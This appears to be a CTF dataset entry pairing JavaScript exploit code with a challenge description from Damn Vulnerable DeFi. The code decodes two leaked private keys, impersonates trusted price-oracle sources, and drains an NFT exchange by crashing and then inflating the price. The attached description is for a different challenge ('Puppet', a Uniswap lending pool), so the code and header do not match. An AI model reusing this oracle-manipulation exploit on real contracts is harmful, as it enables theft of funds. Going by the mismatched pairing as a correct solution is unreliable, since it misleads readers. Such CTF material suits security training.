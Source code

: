 Here is exploit code:

```js
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        const priKey1 = "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35";
        const priKey2 = "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34";

        let priKey1ToBase64 = Buffer.from(priKey1.split(' ').join(''),'hex').toString('utf-8');
        let priKey1ToHex = Buffer.from(priKey1ToBase64,'base64').toString('utf-8');
        
        let priKey2ToBase64 = Buffer.from(priKey2.split(' ').join(''),'hex').toString('utf-8');
        let priKey2ToHex = Buffer.from(priKey2ToBase64,'base64').toString('utf-8');

        let TrustedSource1 = new ethers.Wallet(priKey1ToHex, ethers.provider);
        let TrustedSource2 = new ethers.Wallet(priKey2ToHex, ethers.provider);
        console.log("TrustedSource1: ", TrustedSource1.address);
        console.log("TrustedSource2: ", TrustedSource2.address);
        
        await this.oracle.connect(TrustedSource1).postPrice("DVNFT", 0);
        await this.oracle.connect(TrustedSource2).postPrice("DVNFT", 0);

        await this.exchange.connect(attacker).buyOne({value: 1});
    
        await this.oracle.connect(TrustedSource1).postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE)
        await this.oracle.connect(TrustedSource2).postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE)

        await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
        await this.exchange.connect(attacker).sellOne(0);

        await this.oracle.connect(TrustedSource1).postPrice("DVNFT", INITIAL_NFT_PRICE)
        await this.oracle.connect(TrustedSource2).postPrice("DVNFT", INITIAL_NFT_PRICE)
    });
```


- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Puppet
### Challenge description:
    There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

    There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

    Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.
